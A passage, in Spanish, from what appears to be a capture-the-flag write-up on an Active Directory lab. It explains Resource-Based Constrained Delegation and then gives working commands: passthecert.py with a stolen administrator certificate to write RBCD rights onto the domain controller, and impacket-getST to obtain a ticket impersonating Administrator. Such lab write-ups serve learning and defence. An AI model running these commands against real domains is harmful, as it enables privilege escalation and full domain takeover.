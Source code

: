 En resumidas cuentas, la idea es la siguiente:

1. **Me autentico en el `SERVICIO A`**.
2. **El `SERVICIO A` le dice al *DC* que me quiere impersonar en el `RECURSO B`** (`SERVICIO B`).
3. **El *DC*, comprueba la lista (`msDS-AllowedToActOnBehalfOfOtherIdentity`) del `RECURSO B`** (`SERVICIO B`).
4. **Si en la lista se encuentra presente la cuenta de servicio de `SERVICIO A`, `SERVICIO B` permitirá la impersonación**.

En conclusión, **Resource-Based Constrained Delegation (RBCD)** es una mejora y un enfoque más flexible de la delegación de autenticación en comparación con la delegación restringida tradicional [Constrained Delegation](https://deephacking.tech/constrained-delegation-y-resource-based-constrained-delegation-rbcd-kerberos/#constrained-delegation). *RBCD* fue introducido en **Windows Server 2012** como una alternativa a la delegación tradicional para mejorar la seguridad y flexibilidad en cómo se gestionan los permisos de delegación en un entorno de Active Directory.

Sabiendo como funciona un *RBCD*, procederemos a efectuarlo. Para ello, nos clonaremos la herramienta `passthecert.py` e introduciremos los ficheros que hemos extraído del `.pfx` en la misma carpeta del repositorio.

```bash
git clone https://github.com/AlmondOffSec/PassTheCert.git
cd PassTheCert
cp ../administrator_authority.pfx .../administrator.key ../administrator.crt .
```

Ahora si, para realizar un **Resource-Based Constrained Delegation (RBCD)**, ejecutaremos la herramienta de la siguiente manera.

```bash
python3 ./Python/passthecert.py -dc-ip DC-IP -crt administrator.crt -key administrator.key -domain DOMINIO -port 636 -action write_rbcd -delegate-to 'DC-NAME$' -delegate-from 'MACHINE-NAME$'
```

![passthecert para nuestra maquina poder impersonar al dc crt key.png](/assets/img/passthecert-para-nuestra-maquina-poder-impersonar-al-dc-crt-key.png)

Este comando usa la técnica **Pass-The-Certificate** para autenticarse en el controlador de dominio (`10.10.11.222`) usando un certificado (`administrator.crt`) y su clave (`administrator.key`). Luego, ejecuta una acción (`write_rbcd`) para configurar la delegación de privilegios, permitiendo que `HEGOCIV$` (nuestro "*fake computer*") pueda actuar en nombre del *DC* (`AUTHORITY-CY$`), lo que podríamos usar para realizar acciones en nombre del administrador (**impersonar**)

Con esta pequeña configuración, lograremos que el equipo que hemos creado (en mi caso *`HEGOCIV$`*) tenga los permisos de delegación necesarios para poder solicitar un ticket de servicio a nombre del administrador. Con `getST.py` conseguiremos lo que acabamos de mencionar.

```bash
impacket-getST -spn 'cifs/DC-NAME.DOMINIO' -impersonate Administrator 'DOMINIO/MACHINE-NAME$:CONTRASEÑA'
```
